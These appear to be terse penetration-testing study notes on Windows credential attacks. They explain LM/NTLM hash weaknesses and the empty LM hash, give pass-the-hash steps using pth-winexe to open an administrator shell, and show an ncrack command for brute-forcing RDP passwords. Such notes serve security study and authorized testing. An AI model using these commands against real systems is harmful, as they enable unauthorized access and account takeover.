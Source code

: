 # LM hashes
- Password longer than 7 is split and each half hashed separately
- Passwords are converted into uppercase
- No salt
- Empty LM hash
```
AAD3B435B51404EE
AAD3B435B51404EEAAD3B435B51404EE
```
# NTLM hashes

# Dumping hashes

- Cannot copy SAM when sys is in use

# Pass the Hash

Auth using username and NTLM hash (since NTLM and LM hashes are not salted)

- Replace "no password" in dump wih empty LM hash
- Copy admins dumped hash (LM:NTML)
- export SMBHASH=LM:NTML
- pth-winexe -U administrator% //ip cmd

# RDP

```
ncrack -v -f --user administrator -P password.txt rdp://ip,CL=1
```
